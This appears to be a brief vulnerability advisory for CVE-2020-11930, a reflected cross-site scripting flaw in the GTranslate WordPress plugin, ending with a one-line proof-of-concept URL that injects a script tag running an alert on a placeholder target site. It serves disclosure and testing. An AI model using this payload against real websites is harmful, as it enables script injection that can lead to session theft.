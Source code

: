 # CVE-2020-11930
Description : 
The GTranslate plugin before 2.8.52 for WordPress has Reflected XSS via a crafted link. This requires use of the hreflang tags feature within a sub-domain or sub-directory paid option.

POC :
Targetsite.com/"%22%3E%3Cscript%3Ealert("XSS")%3C/script%3E<img%20src=x
